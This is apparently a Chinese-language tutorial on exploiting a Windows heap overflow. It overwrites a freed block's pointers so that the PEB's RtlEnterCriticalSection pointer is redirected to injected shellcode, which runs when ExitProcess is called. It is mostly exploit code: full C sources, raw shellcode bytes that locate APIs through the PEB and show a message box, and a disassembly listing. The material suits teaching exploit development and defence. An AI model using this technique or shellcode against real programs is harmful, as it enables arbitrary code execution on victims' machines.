




# Shellcode executing in heap overrun

**Author：wnagzihxain
Mail：tudouboom@163.com**

```
#include <windows.h>

char shellcode[] = 
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90";//200 bytes 0x90

int main()
{
	HLOCAL h1 = 0, h2 = 0;
	HANDLE hp;
	hp = HeapCreate(0, 0x1000, 0x10000);
	h1 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 200);
	__asm int 3 //used to break the process
	memcpy(h1, shellcode, 200); //normal cpy, used to watch the heap
	//memcpy(h1, shellcode, 0x200); //overflow,0x200=512
	h2 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 8);
	return 0;
}
```

生成release版本，然后attach



直接来到分配的堆块，然后nop填充掉`int 3`，F8单步走下去，直到`0x90`覆盖整个堆块



可以看出来，200字节的`0x90`刚好填充整个堆块，后面跟着的是尾块的块首，接下来就是用溢出来覆盖堆块的两个指针
先来看看需要使用的shellcode
``` 
#include <stdio.h>

char shellcode[] = 
    "\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    //repaire the pointer which shooted by heap over run
    "\xB8\x20\xF0\xFD\x7F"  //MOV EAX,7FFDF020
    "\xBB\x60\x20\xF8\x77"  //MOV EBX,77F8AA4C the address here may releated to your OS
    "\x89\x18"		    //MOV DWORD PTR DS:[EAX],EBX
    "\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
    "\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
    "\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
    "\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
    "\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
    "\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
    "\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
    "\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
    "\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
    "\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
    "\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x16\x01\x1A\x00\x00\x10\x00\x00"// head of the ajacent free block
    "\x88\x06\x36\x00\x20\xf0\xfd\x7f";
    //0x00520688 is the address of shellcode in first heap block, you have to make sure this address via debug 
    //0x7ffdf020 is the position in PEB which hold a pointer to RtlEnterCriticalSection()
    //and will be called by ExitProcess() at last

int main()
{
	__asm
	{
		lea eax,shellcode
		push eax
		ret
	}
	return 0;
}
``` 

生成后载入OD看看长啥样



代码
```
00406030    90              nop
00406031    90              nop
00406032    90              nop
00406033    90              nop
00406034    90              nop
00406035    90              nop
00406036    90              nop
00406037    90              nop
00406038    90              nop
00406039    90              nop
0040603A    90              nop
0040603B    90              nop
0040603C    B8 20F0FD7F     mov     eax, 7FFDF020
00406041    BB 6020F877     mov     ebx, ntdll.RtlEnterCriticalSecti&gt;
00406046    8918            mov     dword ptr [eax], ebx
00406048    FC              cld
00406049    68 6A0A381E     push    1E380A6A
0040604E    68 6389D14F     push    4FD18963
00406053    68 3274910C     push    0C917432
00406058    8BF4            mov     esi, esp
0040605A    8D7E F4         lea     edi, dword ptr [esi-C]
0040605D    33DB            xor     ebx, ebx
0040605F    B7 04           mov     bh, 4
00406061    2BE3            sub     esp, ebx
00406063    66:BB 3332      mov     bx, 3233
00406067    53              push    ebx
00406068    68 75736572     push    72657375
0040606D    54              push    esp
0040606E    33D2            xor     edx, edx
00406070    64:8B5A 30      mov     ebx, dword ptr fs:[edx+30]
00406074    8B4B 0C         mov     ecx, dword ptr [ebx+C]
00406077    8B49 1C         mov     ecx, dword ptr [ecx+1C]
0040607A    8B09            mov     ecx, dword ptr [ecx]
0040607C    8B69 08         mov     ebp, dword ptr [ecx+8]
0040607F    AD              lods    dword ptr [esi]
00406080    3D 6A0A381E     cmp     eax, 1E380A6A
00406085    75 05           jnz     short 0040608C
00406087    95              xchg    eax, ebp
00406088    FF57 F8         call    dword ptr [edi-8]
0040608B    95              xchg    eax, ebp
0040608C    60              pushad
0040608D    8B45 3C         mov     eax, dword ptr [ebp+3C]
00406090    8B4C05 78       mov     ecx, dword ptr [ebp+eax+78]
00406094    03CD            add     ecx, ebp
00406096    8B59 20         mov     ebx, dword ptr [ecx+20]
00406099    03DD            add     ebx, ebp
0040609B    33FF            xor     edi, edi
0040609D    47              inc     edi
0040609E    8B34BB          mov     esi, dword ptr [ebx+edi*4]
004060A1    03F5            add     esi, ebp
004060A3    99              cdq
004060A4    0FBE06          movsx   eax, byte ptr [esi]
004060A7    3AC4            cmp     al, ah
004060A9    74 08           je      short 004060B3
004060AB    C1CA 07         ror     edx, 7
004060AE    03D0            add     edx, eax
004060B0    46              inc     esi
004060B1  ^ EB F1           jmp     short 004060A4
004060B3    3B5424 1C       cmp     edx, dword ptr [esp+1C]
004060B7  ^ 75 E4           jnz     short 0040609D
004060B9    8B59 24         mov     ebx, dword ptr [ecx+24]
004060BC    03DD            add     ebx, ebp
004060BE    66:8B3C7B       mov     di, word ptr [ebx+edi*2]
004060C2    8B59 1C         mov     ebx, dword ptr [ecx+1C]
004060C5    03DD            add     ebx, ebp
004060C7    032CBB          add     ebp, dword ptr [ebx+edi*4]
004060CA    95              xchg    eax, ebp
004060CB    5F              pop     edi
004060CC    AB              stos    dword ptr es:[edi]
004060CD    57              push    edi
004060CE    61              popad
004060CF    3D 6A0A381E     cmp     eax, 1E380A6A
004060D4  ^ 75 A9           jnz     short 0040607F
004060D6    33DB            xor     ebx, ebx
004060D8    53              push    ebx
004060D9    68 77657374     push    74736577
004060DE    68 6661696C     push    6C696166
004060E3    8BC4            mov     eax, esp
004060E5    53              push    ebx
004060E6    50              push    eax
004060E7    50              push    eax
004060E8    53              push    ebx
004060E9    FF57 FC         call    dword ptr [edi-4]
004060EC    53              push    ebx
004060ED    FF57 F8         call    dword ptr [edi-8]
004060F0    90              nop
004060F1    90              nop
004060F2    90              nop
004060F3    90              nop
004060F4    90              nop
004060F5    90              nop
004060F6    90              nop
004060F7    90              nop
```

讲一下为什么这样写：`ExitProcess()`在结束进程时会调用临界区函数`RtlEnterCriticalSection()`来同步线程，而且这个函数指针在PEB中偏移`0x20`的位置`0x7ffdf020`，是的，固定的，但是该函数指针的值在不同的操作系统上不一样，需要先记住，一定要记住，直接`Ctrl+G`到`0x7ffdf020`就可以看到这个函数的指针了，那么`DWORDSHOOT`的目标就有了，咱们把shellcode里尾块的块首先按照自己的堆块信息修改好，不同的操作系统堆区起始位置可能不太一样，需要在shellcode里修改，溢出后，当h2分配的时候，伪造的指针就会进行`DWORDSHOOT`，将shellcode的起始位置写入临界区函数`RtlEnterCriticalSection()`的地址，这时候堆溢出就会导致异常，异常了就会调用`ExitProcess()`函数结束线程，是的，没有错，会取出临界区函数`RtlEnterCriticalSection()`的指针，这个指针的值已经被我们shellcode的起始位置覆盖了，所以就回去执行shellcode，然而！！！！！！

刚刚我说：记住临界区函数`RtlEnterCriticalSection()`的指针的值，为什么？

因为shellcode也会调用临界区函数`RtlEnterCriticalSection()`，但是这时候取出的值又是shellcode的值，这咋整？所以刚刚记住的真实地址就有用了，咱们的shellcode前面不是一堆0x90嘛，在那里修复一下临界区函数`RtlEnterCriticalSection()`函数指针的值，然后继续执行shellcode

完整的代码
```
#include <windows.h>

char shellcode[]=
    "\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    //repaire the pointer which shooted by heap over run
    "\xB8\x20\xF0\xFD\x7F"  //MOV EAX,7FFDF020
    "\xBB\x60\x20\xF8\x77"  //MOV EBX,77F8AA4C the address here may releated to your OS
    "\x89\x18"		    //MOV DWORD PTR DS:[EAX],EBX
    "\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
    "\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
    "\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
    "\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
    "\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
    "\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
    "\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
    "\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
    "\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
    "\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
    "\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
    "\x16\x01\x1A\x00\x00\x10\x00\x00"// head of the ajacent free block
    "\x88\x06\x36\x00\x20\xf0\xfd\x7f";
    //0x00520688 is the address of shellcode in first heap block, you have to make sure this address via debug 
    //0x7ffdf020 is the position in PEB which hold a pointer to RtlEnterCriticalSection()
    //and will be called by ExitProcess() at last


main()
{
	HLOCAL h1 = 0, h2 = 0;
	HANDLE hp;
	hp = HeapCreate(0, 0x1000, 0x10000);
	h1 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 200);
	//__asm int 3 //used to break the process
	//memcpy(h1, shellcode, 200); //normal cpy, used to watch the heap
	memcpy(h1, shellcode, 0x200); //overflow,0x200=512
	h2 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 8);
	return 0;
}
```

生成release，运行

